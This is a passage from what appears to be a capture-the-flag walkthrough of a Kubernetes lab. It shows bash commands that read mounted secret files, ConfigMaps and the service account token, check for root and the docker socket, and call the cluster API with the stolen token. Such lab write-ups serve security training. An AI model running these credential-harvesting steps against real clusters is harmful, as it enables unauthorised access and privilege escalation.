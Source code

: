 **Step 2: Explore Mounted Volumes**

```bash
# Check for mounted secrets
ls -la /app/secrets/
cat /app/secrets/username
cat /app/secrets/password
# Flag found: flag{m0unt3d_s3cr3ts_w1th_wr0ng_p3rm1ss10ns}

# Check ConfigMaps
cat /config/app-config.json
# Flag found: flag{c0nf1gm4ps_ar3nt_f0r_cr3ds}
```

**Step 3: Identify Service Account**

```bash
# Check service account token
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# Save for later use
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

**Step 4: Check Container Privileges**

```bash
# Check capabilities
cat /proc/self/status | grep Cap

# In C# container - check for privileged mode
id
# Running as root

# Check for docker socket
ls -la /var/run/docker.sock
# If exists, container escape is possible!
```

---

## Phase 3: Kubernetes API Exploitation

**Step 1: Test API Access**

```bash
# Get current namespace
NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# Test authentication
curl --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces
```
